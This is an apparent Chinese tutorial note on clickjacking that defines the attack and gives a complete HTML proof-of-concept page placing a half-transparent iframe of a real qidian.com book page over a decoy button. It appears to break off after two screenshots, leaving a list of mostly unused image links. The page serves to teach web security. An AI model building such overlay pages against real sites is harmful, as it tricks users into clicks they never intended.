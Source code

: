 ﻿# 点击劫持（ClickJacking）

标签（空格分隔）： Web安全

---

一、什么是点击劫持
---------

点击劫持是一种视觉上的欺骗手段。攻击者使用一种透明的、不可见的iframe，覆盖在一个网页上，然后诱使用户在该网页上进行操作，此时用户将在不知情的情况下点击透明的iframe页面。通过调整iframe页面的位置，可以诱使用户恰好点击在iframe页面的一些功能性按钮上，攻击者常常配合社工手段完成攻击。

看下面这个例子：
在页面中插入了一个指向目标网站的iframe，出于演示的目的，我们让这个iframe变成半透明：

    <html>
    <head>
    <title>Click Jack!</title>
    <style>
    iframe{
    width:350px;
    height:380px;
    
    position:absolute;
    top:-330px;
    left:-180px;
    z-index:2;
    
    -moz-opacity:0.5;
    opacity:0.5;
    filter:alpha(opacity=0.5);
    }
    
    button {
    
    position:absolute;
    top:10px;
    left:10px;
    z-index:1;
    width:120px;
    }
    </style>
    </head>
    <body>
    <iframe src="https://book.qidian.com/info/1010468795" scrolling="no"></iframe>
    <button>Click here!</button>
    </body>
    </html>


在页面中有一个button，如果iframe全透明时，用户看到的是：
![此处输入图片的描述][1]


当iframe半透明时，可以看到，在button上其实覆盖了另一个网页:
![此处输入图片的描述][2]


  [1]: https://raw.githubusercontent.com/StarryPath/iframe-png/master/QQ%E6%88%AA%E5%9B%BE20171231145113.png
  [2]: https://raw.githubusercontent.com/StarryPath/iframe-png/master/QQ%E6%88%AA%E5%9B%BE20171231145448.png
  [3]: https://raw.githubusercontent.com/StarryPath/iframe-png/master/QQ%E6%88%AA%E5%9B%BE20171231145708.png
  [4]: https://raw.githubusercontent.com/StarryPath/iframe-png/master/201608261472195714792392.png
  [5]: https://raw.githubusercontent.com/StarryPath/iframe-png/master/201608261472195765627779.png
  [6]: https://raw.githubusercontent.com/StarryPath/iframe-png/master/201608261472195746923033.png
  [7]: https://raw.githubusercontent.com/StarryPath/iframe-png/master/201608261472195789919141.png
  [8]: https://raw.githubusercontent.com/StarryPath/iframe-png/master/QQ%E6%88%AA%E5%9B%BE20171231214444.png
  [9]: https://raw.githubusercontent.com/StarryPath/iframe-png/master/QQ%E6%88%AA%E5%9B%BE20171231214551.png
  [10]: https://raw.githubusercontent.com/StarryPath/iframe-png/master/QQ%E6%88%AA%E5%9B%BE20171231164950.png
  [11]: https://raw.githubusercontent.com/StarryPath/iframe-png/master/QQ%E6%88%AA%E5%9B%BE20171231165449.png
  [12]: https://raw.githubusercontent.com/StarryPath/iframe-png/master/QQ%E6%88%AA%E5%9B%BE20171231165917.png
  [13]: https://raw.githubusercontent.com/StarryPath/iframe-png/master/QQ%E6%88%AA%E5%9B%BE20171231173027.png